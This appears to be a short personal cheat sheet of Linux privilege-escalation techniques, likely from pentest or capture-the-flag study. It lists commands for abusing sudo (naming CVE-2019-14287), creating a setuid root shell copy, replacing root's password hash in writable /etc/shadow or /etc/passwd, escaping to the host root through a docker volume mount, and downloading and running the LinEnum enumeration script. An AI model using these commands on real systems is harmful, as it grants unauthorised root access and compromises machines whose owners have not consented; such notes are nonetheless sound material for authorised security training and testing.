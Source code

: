 					Sudo 
- Can you su without a password?		       `su root`
- are you already a sudo user?			   `sudo su -`
- what can we run with sudo?			  `sudo -l`
- sudo versions < 1.8.28 are vulnerable to `CVE-2019-14287`

<!-- -->
				Spawning root shells
Create a copy of /bin/bash or /bin/sh can you call it rootbash - make sure its owned by the root user. Then use /bin/bash -p to run it

				Writable /etc/shadow
ls -l /etc/shadow					is /etc/shadow writable?
- mkpasswd -m sha-512 password		Makes password Hash
- replace root password hash with the one you just generated
- su root								switch to root

<!-- -->

			 	Writable /etc/passwd
ls -l /etc/passwd					is /etc/passwd writeable?
- openssl passwd password			      Generate password hash
- place the new password hash between the first and second colon (:) of the root user's row (replacing the "x").
- su root							      switch to root

<!-- -->


				Docker
-- get image name using 'docker ps'
-- docker run -v /:/mnt --rm -it $imagenamehere chroot /mnt sh

				Capabilities
## Identifying Capabilities
`getcap -r / 2>/dev/null`

				LinEnum
-- wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
-- ./LinEnum.sh -t -r report.txt

				Misc
-- https://gtfobins.github.io/